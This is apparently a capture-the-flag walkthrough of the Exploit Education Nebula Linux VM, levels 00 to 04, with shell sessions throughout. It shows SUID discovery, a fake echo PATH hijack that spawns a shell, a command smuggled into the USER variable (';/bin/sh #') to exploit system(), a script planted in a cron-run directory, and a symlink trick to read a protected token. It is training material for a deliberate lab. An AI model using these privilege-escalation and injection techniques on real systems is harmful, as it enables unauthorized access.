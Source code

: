 # Exploit Education - Nebula

This is a walkthrough of [Nebula](http://exploit.education/nebula/) from [Exploit Education](http://exploit.education/).  

Nebula is a Linux virtual machine designed to demonstrate a number of weaknesses and vulnerabilities in Linux. 

## Setup
To run these tasks I use VirtualBox. The virtual machine has 1 GiByte of RAM, no virtual hard drive and network set to Host Only Adapter. The Nebula ISO image is attached and on startup the Live Image is selected from the boot menu. Once presented with a prompt login with username and password of 'nebula'. Then run `ifconfig` to get the IP address of the virtual machine.  

With the virtual machine running I log into each level using `ssh`:
```
$ ssh levelnn@NEBULA_VM_IP_ADDRESS
```
The username and password for each level take  the form 'levelnn' where nn is the number of the level. The aim of each level is to be able to run the `getflag` command to under the 'flagnn' account.

## Levels
[Level 00](#level-00)  
[Level 01](#level-01)  
[Level 02](#level-02)  
[Level 03](#level-03) 
[Level 04](#level-04)  
[Level 05](#level-05) 

### Level 00

[Level 00 Description](https://exploit.education/nebula/level-00/)  

First of all we use `find` to find any SUID applications that we can run.
```
level00@nebula:~$ find / -type f -perm -u+s 2>/dev/null
```
In amoungst the find result we see:
```
...
/rofs/bin/.../flag00
...
level00@nebula:~$ ls -al /rofs/bin/.../flag00 
-rwsr-x--- 1 flag00 level00 7358 2011-11-20 21:22 /rofs/bin/.../flag00
```
Try and run the `flag00` application.
```
level00@nebula:~$ /rofs/bin/.../flag00 
Congrats, now run getflag to get your flag!
flag00@nebula:~$ 
```
The application has given us a shell as the flag00 user. We can now run `getflag`
```
flag00@nebula:~$ getflag
You have successfully executed getflag on a target account
```
### Level 01

[Level 01 Description](https://exploit.education/nebula/level-01/)

From inspection of the source code attached to the description we can see that the `flag01` program uses the `system()` function to call `echo` and write 'and now what?' to stdout. 
```
level01@nebula:~$ ls -al /home/flag01
total 13
drwxr-x--- 2 flag01 level01   92 2011-11-20 21:22 .
drwxr-xr-x 1 root   root      60 2012-08-27 07:18 ..
-rw-r--r-- 1 flag01 flag01   220 2011-05-18 02:54 .bash_logout
-rw-r--r-- 1 flag01 flag01  3353 2011-05-18 02:54 .bashrc
-rwsr-x--- 1 flag01 level01 7322 2011-11-20 21:22 flag01
-rw-r--r-- 1 flag01 flag01   675 2011-05-18 02:54 .profile
level01@nebula:~$ /home/flag01/flag01
and now what?
```
`flag01` is an SUID application therefore it will run any commands as the flag01 user. The absolute path of `echo` isn't set therefore we can create a fake echo command to give us a shell under the flag01 account.  

To do this we simply create a one line script in `/tmp/echo` which just runs `/bin/bash`. We give the script execute permissions and and /tmp to the PATH.
```
level01@nebula:~$ echo /bin/bash > /tmp/echo 
level01@nebula:~$ chmod +x /tmp/echo
level01@nebula:~$ export PATH=/tmp:$PATH
```
Now when we run `flag01` we drop into a shell under the flag01 account and we can run `getflag`.
```
level01@nebula:~$ /home/flag01/flag01 
flag01@nebula:~$ getflag
You have successfully executed getflag on a target account
```
### Level 02

[Level 02 Description](https://exploit.education/nebula/level-02/)

From inspection of the source code attached to the description we can see that the `flag02` program uses fills a buffer with a command which is then executed by the `system()` function. The command uses `echo` to print the USER environment variable. We can modify the USER variable to manipulate the command to give use a shell.

Initial experimentation:
```
level02@nebula:~$ cd /home/flag02
level02@nebula:/home/flag02$ ./flag02 
about to call system("/bin/echo level02 is cool")
level02 is cool
```
Initial attempt at changing the USER variable:
```
level02@nebula:/home/flag02$ USER=/bin/sh ./flag02
about to call system("/bin/echo /bin/sh is cool")
/bin/sh is cool
level02@nebula:/home/flag02$ USER=/bin/sh; ./flag02
about to call system("/bin/echo /bin/sh is cool")
/bin/sh is cool
```
Success!
```
level02@nebula:/home/flag02$ USER=';/bin/sh #' ./flag02
about to call system("/bin/echo ;/bin/sh # is cool")

sh-4.2$ #
sh-4.2$ getflag
You have successfully executed getflag on a target account
```
### Level 03

[Level 03 Description](https://exploit.education/nebula/level-03/)

Initial iscpection of /home/flag03 shows that there is a script called `writeable.sh` and a directory called `writeable.d` in /home/flag03. 
```
level03@nebula:~$ ls
level03@nebula:~$ ls /home/flag03
writable.d  writable.sh
```
`writable.sh` is the cron task. It executes any scripts in the directory `writeable.d` and then deletes the file. 

We can create a short script that will call `getflag` and place it in `writeable.d`. The script will run under the flag03 account so getting the flag will succeed.
```
level03@nebula:~$ echo 'getflag > /tmp/flag.out' > script.sh
level03@nebula:~$ cp script.sh /home/flag03/writable.d
```
A few minutes later...
```
level03@nebula:~$ ls -al /tmp/
total 4
drwxrwxrwt 4 root   root   100 2021-03-28 01:27 .
drwxr-xr-x 1 root   root   220 2021-03-28 01:20 ..
-rw-rw-r-- 1 flag03 flag03  59 2021-03-28 01:27 flag.out
drwxrwxrwt 2 root   root    40 2021-03-28 01:20 .ICE-unix
drwxrwxrwt 2 root   root    40 2021-03-28 01:20 .X11-unix
level03@nebula:~$ cat /tmp/flag.out 
You have successfully executed getflag on a target account
```

### Level 04

[Level 04 Description](https://exploit.education/nebula/level-04/)  

```
level04@nebula:~$ ls
level04@nebula:~$ ls -al /home/flag04
total 13
drwxr-x--- 2 flag04 level04   93 2011-11-20 21:52 .
drwxr-xr-x 1 root   root     120 2012-08-27 07:18 ..
-rw-r--r-- 1 flag04 flag04   220 2011-05-18 02:54 .bash_logout
-rw-r--r-- 1 flag04 flag04  3353 2011-05-18 02:54 .bashrc
-rwsr-x--- 1 flag04 level04 7428 2011-11-20 21:52 flag04
-rw-r--r-- 1 flag04 flag04   675 2011-05-18 02:54 .profile
-rw------- 1 flag04 flag04    37 2011-11-20 21:52 token
level04@nebula:~$  /home/flag04/flag04 
/home/flag04/flag04 [file to read]
level04@nebula:~$ /home/flag04/flag04 token
You may not access 'token'
```
It's not possible to open the `token` file. Looking at code provided in the description token file needs to be called anything except token.

```
level04@nebula:~$ ln -s /home/flag04/token ttttt
level04@nebula:~$ /home/flag04/flag04 ttttt 
[REDACTED]
```
This gives a password that we can use to log in as the flag04 user.

```
ssh flag04@IPADDRESS
[ENTER THE PASSWORD]
```
Now run the get flag command.
```
flag04@nebula:~$ getflag 
You have successfully executed getflag on a target account
```
### Level 05

[Level 05 Description](https://exploit.education/nebula/level-05/)  
